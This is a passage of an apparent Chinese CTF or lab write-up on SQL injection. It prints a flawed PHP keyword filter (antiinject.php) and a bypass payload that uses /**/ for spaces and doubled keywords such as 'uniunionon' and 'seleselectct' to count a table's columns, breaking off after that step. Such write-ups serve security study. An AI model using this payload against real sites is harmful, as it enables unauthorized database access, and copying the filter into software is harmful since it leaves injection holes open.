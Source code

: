 ##0x02 注入
打开bp，修改UA，得到搜索的数据。
<img src="/assets/NUPTZJ/01.png" width=100%>
图片01
用/**/代替空格，用and 1=1和and 1=2返回的结果是一样的，让我真的很疑惑这里是不是有注入，后来才发现原来等号也被过滤了囧...改成and/**/1和and/**/0才终于确定。antiinject.php过了蛮多关键字。

```
antiinject.php
<?php 
function antiinject($content){ $keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","="); 
$info=strtolower($content); 
for($i=0;$i<=count($keyword);$i++){ 
    $info=str_replace($keyword[$i], '',$info);
     } 
return $info;
} 
?>
```
继续拼凑payload，猜解message表的字段数。payload为

```
soid=0/**/anandd/**/1/**/uniunionon/**/seleselectct/**/1,2,3,4
```
得到响应，字段数为4。